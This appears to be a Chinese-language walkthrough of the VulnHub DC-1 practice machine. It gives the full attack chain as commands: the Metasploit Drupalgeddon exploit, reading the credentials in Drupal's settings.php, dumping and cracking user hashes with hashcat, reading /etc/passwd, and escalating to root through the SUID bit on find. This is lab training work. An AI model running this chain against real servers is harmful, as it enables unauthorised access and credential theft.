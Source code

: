 # DC 1

## 环境准备

* 镜像地址：https://www.vulnhub.com/entry/dc-1,292/

## 知识点

* drupal漏洞利用
* linux提权-suid提权
* hashcat跑密码

## 信息收集

1.IP探测

```bash
ifconfig all # 这里是因为本地局域网
nmap -sP 192.168.2.0/24 # IP探测 扫描本地C段的网络端口信息
```

![image](img/vulnhub-dc1-1.png)

2.扫描目标全端口

```bash
nmap -T5 -A -v -p- 192.168.2.22
nmap 192.168.2.22
```

![image](img/vulnhub-dc1-2.png)

可以扫出 22 80 111三个端口

## 漏洞利用

访问80端口发现服务为drupal 7

```
msfconsole
search drupal
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.2.22
run
```

![image](img/vulnhub-dc1-3.png)

利用成功弹回meterpreter会话,然后cmd shell下

```
shell
```

![image](img/vulnhub-dc1-4.png)

getshell后第一件事是使用python命令获取一个正常的tty,否则有些命令可能无法执行。

```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

### 0x01-flag1

目前权限是www-data,读取flag1.txt,估摸着是权限不够，只读取到一个flag1.txt,读取flag1.txt

```bash
find / -name flag*
cat flag1.txt
```

![image](img/vulnhub-dc1-5.png) ![image](img/vulnhub-dc1-6.png)

提示CMS的配置文件有东西

### 0x02-flag2

google搜索drupal数据库配置文件(配置文件不存在，所以搜的数据库文件)

```bash
find /var -name settings.php
cat /var/www/sites/default/settings.php
```

![image](img/vulnhub-dc1-7.png)

可以看到flag2的内容以及mysql的数据库账号密码，尝试登录数据库

### 0x03-flag3

```bash
mysql -udbuser -pR0ck3t
use drupaldb
show tables
```

![image](img/vulnhub-dc1-8.png)

尝试读取users表

```
select * from users;
select name,pass from users;
```

![image](img/vulnhub-dc1-9.png)

接着用hashcat爆破跑密码的hash的明文，需要先知道drupal的hash id

```bash
hashcat --help | grep "Drupal"  # 获得7900
```

hash保存源文件

```bash
echo "\$S\$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR" > source.txt
echo "\$S\$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg" >> source.txt
```

接着爆破需要密码表，这里我用的我团队的字典项目

* https://github.com/ffffffff0x/AboutSecurity/tree/master/Dic/Auth/password

```
hashcat -m 7900 -a 0 source.txt pass01.txt

-m 指定要破解的 hash 类型，如果不指定类型，则默认是 MD5
-a 指定要使用的破解模式，其值参考后面对参数。“-a 0”字典攻击，“-a 1” 组合攻击；“-a 3”掩码攻击。
source.txt 你要爆破的 hash 列表
pass01.txt 你的密码表
```

kali虚拟机跑不起来，问了朋友说是虚拟机显卡问题，在我自己Windows跑了下没问题。

![image](img/vulnhub-dc1-10.png)

可以看到分别跑出密码为:53cr3t和Mypassword,第一个拿去登录网站admin/53cr3t,在dashborad发现flag3

![image](img/vulnhub-dc1-11.png)

翻译就是：特殊权限将有助于查找密码 - 但您需要 -exec 该命令才能确定如何获取隐藏中的内容

### 0x04-flag4

```bash
cat /etc/passwd
```

![image](img/vulnhub-dc1-12.png)

发现flag4用户，读取

```bash
cat /home/flag4/flag4.txt
```

```
Can you use this same method to find or access the flag in root?
Probably. But perhaps it's not that easy.  Or maybe it is?
```

提示需要提权

### 0x05-flag5

考点：find的suid提权

```bash
find / -perm -u=s -type f 2>/dev/null

两种方法：
find . -exec /bin/sh \;  # 直接提权
find flag4.txt -exec "/bin/sh" \; 
ls /root
cat /root/thefinalflag.txt
```

![image](img/vulnhub-dc1-13.png) ![image](img/vulnhub-dc1-14.png)

提权成功，得到flag5

## 参考链接

* https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC1-WalkThrough.md
* https://peiqiwiki.yuque.com/staff-ws572w/ku05f9/kh0cna
